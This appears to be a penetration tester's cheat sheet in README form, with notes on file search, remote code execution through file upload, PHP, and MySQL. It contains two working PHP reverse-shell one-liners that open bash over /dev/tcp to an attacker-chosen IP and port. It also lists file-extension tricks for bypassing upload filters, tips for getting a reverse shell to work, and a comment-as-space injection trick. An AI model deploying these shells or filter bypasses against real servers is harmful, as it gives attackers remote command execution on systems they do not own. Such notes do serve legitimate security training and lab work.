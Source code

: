 # Summary
* [Searching](#Searching)
* [RCE](#RCE)
* [PHP](#PHP)
* [MySQL](#MySQL)

## Searching
* Looking for a specific file
``` 
sudo find / -name "specificfile.txt"
```
* grep 
	* -r: recursive
	* -n: number
	* -i: ignore case

[Back](#summary)

## RCE
Some notes about Remote Code Execution

### File Upload
Some considerations when trying to gain RCE through File Upload
1. Use the victim box to look for the file that was uploaded
```
sudo find / -name "uploadedfile.txt"
```
2. Find the web root by triggering information disclosure
3. Try to upload file to tmp directory then web root
4. Bypass file extension filter 

[Back](#summary)

## PHP
* Turn on logging
```
// Uncomment the following line to /etc/php5/apache2/php.ini
$ sudo vi /etc/php5/apache2/php.ini
display_errors = On

// Restart the apache service 
$ sudo systemctl restart apache2
```

### PHP Shells
* User Supplied IP and Port
```php
<?php $ip=$_GET['ip']; $port=$_GET['port']; $string = \"/bin/bash -c 'bash -i >& /dev/tcp/\".$ip.\"/\".$port.\" 0>&1'\"; exec($string); ?>
```
* Hardcoded IP and Port
```php
<?php exec(\'/bin/bash -c \"bash -i >& /dev/tcp/<<ATTACKER IP>>/<<PORT>> 0>&1\"\'); ?>
```

### Extensions
* .phtml 
* .PHP
* .php;.txt
* .php%00

### Tips for troubleshooting reverse shell
* ssh into victim box and test out bash command 
* Run php from the box directly
```
$ php -f phpshell.php
```
* Attempt port 443
* Try a different shell
* Confirm OS (Linux or Windows)

[Back](#summary)

## MySQL
* Turn on logging
```
// Uncomment the following line in /etc/mysql/my.cnf
$ sudo nano /etc/mysql/my.cnf
general_log_file = /var/log/mysql/mysql.log

// Restart mysql
$ sudo systemctl restart mysql

// Review log file
$ sudo tail -f /var/log/mysql/mysql.log
```
* Logging in
```
mysql -uroot -p
```
* Alternative to space 
```
/**/
```
* Get MySQL version
```
select version();
```
* [Common Queries](https://github.com/sqlmapproject/sqlmap/blob/c9ab8ae60e06ca3cd53f1ea80f79bcb65387cef9/xml/queries.xml)
* Finding and pulling a specific value
```
mysql> show databases;
mysql> use [database_name];
mysql> show tables;
mysql> describe [table_name];
mysql> select [table_column] from [database_name].[table_name] LIMIT 0,1;
```

[Back](#summary)